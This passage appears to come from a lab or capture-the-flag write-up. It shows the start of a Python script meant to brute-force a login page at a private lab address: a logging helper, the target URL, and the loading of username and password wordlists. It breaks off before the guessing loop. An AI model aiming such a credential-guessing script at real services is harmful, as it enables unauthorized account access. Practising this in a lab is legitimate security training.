 ## Full Python Script

```python
import re
import sys
import time
import requests


# Custom Logging Class
class Log:
    def __init__(self):
        self.GREEN = "\033[32m"
        self.WHITE = "\033[39m"
        self.CYAN = "\033[36m"
        self.BG_RED = "\033[41m"
        self.DEFAULT_BG = "\033[49m"
        self.RESET = "\033[0m"
        self.BOLD = "\033[1m"

    def error(self, message, bold=False, remove_last_line=False):
        if remove_last_line:
            self.remove_last_line()
        print(self.format_message("ERROR", self.BG_RED, message, bold))

    def info(self, message, bold=False, remove_last_line=False):
        if remove_last_line:
            self.remove_last_line()
        print(self.format_message("INFO", self.GREEN, message, bold))

    def warning(self, message, bold=False, remove_last_line=False):
        if remove_last_line:
            self.remove_last_line()
        print(self.format_message("WARNING", self.CYAN, message, bold))

    def format_message(self, level, color, message, bold):
        bold_format = self.BOLD if bold else ""
        return f"{self.get_time()} {bold_format}{color}{level}{self.WHITE}{self.DEFAULT_BG} {message}{self.RESET}"

    def get_time(self):
        return f"[{self.CYAN}{time.strftime('%H:%M:%S')}{self.WHITE}]"

    def remove_last_line(self):
        sys.stdout.write("\033[F")
        sys.stdout.write("\033[K")


LOG = Log()

# Target URL
url = "http://10.10.41.198/login"

# Load usernames and passwords
usernames_path = "usernames.txt"
passwords_path = "passwords.txt"

try:
    with open(usernames_path, "r") as file:
        usernames = file.read().splitlines()
    with open(passwords_path, "r") as file:
        passwords = file.read().splitlines()
except FileNotFoundError as e:
```